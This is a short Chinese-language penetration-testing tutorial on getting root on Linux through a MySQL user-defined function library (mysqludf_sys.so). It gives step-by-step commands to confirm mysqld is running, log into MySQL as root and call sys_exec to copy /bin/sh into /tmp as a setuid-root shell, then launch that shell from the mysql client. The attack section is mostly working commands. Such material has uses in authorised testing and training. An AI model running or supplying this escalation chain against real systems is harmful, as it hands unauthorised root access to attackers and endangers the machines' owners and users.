 # 基于mysqludf_sys.so漏洞的提权

有时候目标机里会存在mysqludf_sys.so文件，那即表示数据库里可能存在用户自定义的功能函数。
UDF (user defined function)，即用户自定义函数。是通过添加新函数，对MySQL的功能进行扩充，其实就像使用本地MySQL函数如 user() 或 concat() 等。

## 操作
### 1.判断目标机是否运行mysql
```
ps aux | grep mysql
```
若回显的内容中有mysqld，则表示在运行mysql

### 2.判断目标机中是否存在mysqludf_sys.so文件
```
find / -perm -0002 -type f 2>/dev/null | grep -v 'proc'
```
若回显存在则证明存在

### 3.想办法以root用户登录mysql，这里的root是mysql里的用户，不是shell的用户。
```
mysql -u root -p
```
输入root的密码登录mysql

### 4.来到mysqludf_sys.so存在的table下
```
show databases;
use mysql;　　一般在此目录下
show tables;
select * from func;　　一般在此目录下
```

### 5.利用其存在的function提权
```
select sys_exec('cp /bin/sh /tmp/shell;chown root /tmp/shell;chgrp root /tmp/shell;chmod u+s /tmp/shell');
\! /tmp/shell
```
将/bin/sh移动到/tmp下并取名为shell，然后改变/tmp/shell的拥有者、所属的组、文件权限。
\! /tmp/shell是在mysql下执行shell，\! 后面可以接其他的shell语句
之后即为root用户
